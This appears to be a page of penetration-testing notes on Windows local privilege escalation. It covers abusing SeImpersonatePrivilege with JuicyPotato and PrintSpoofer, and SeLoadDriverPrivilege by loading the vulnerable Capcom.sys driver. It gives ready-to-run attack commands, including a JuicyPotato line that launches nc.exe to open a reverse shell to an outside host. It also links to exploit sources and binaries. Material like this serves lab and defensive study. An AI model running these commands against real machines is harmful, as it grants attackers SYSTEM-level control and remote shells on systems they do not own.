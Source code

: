 > **Alert**: SPACES are mandatory to the work of the exploit.

* [https://sohvaxus.github.io/content/winxp-sp1-privesc.html](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)

# Check privileges

With the following command we can check the privileges that is assigned to the pwned user:

```
whoami /priv
```

## SeImpersonatePrivilege

### RottenPotato (Juicy Potato)

Juicy Potato is another Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. Is a sugared version of Rotten Potato. [Download the latest realese](https://github.com/ohpe/juicy-potato) and execute it.

```
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\windows\temp\nc.exe -e cmd.exe 10.10.14.21 4444" -t *
```

### PrintSpoofer

One way to gain system user on latest Operative System such as **Windows10 or Server 2016/2019**, is using the printspoofer exploit. [Donwload the latest release](https://github.com/itm4n/PrintSpoofer) and execute it on the target machine to gain privs.

```
PrintSpoofer64.exe -i -c cmd
```

## SeLoadDriverPrivilege

We are able to load a driver, so we can load a vulnerable driver, then exploit it.

### Load Capcom.sys

To load the driver we need first to create a **C++ Console APP on Visual Studio** (Not Code!) and paste the following script.

> **Alert:** Remove line: #include "stdafx.h"

* [https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp](https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp)

![EoPLoadDriver.cpp](/hackingnotes/images/eoploaddriver.png)

Once compiled With **Release x64** we need to download Capcom.sys driver. ([https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys))
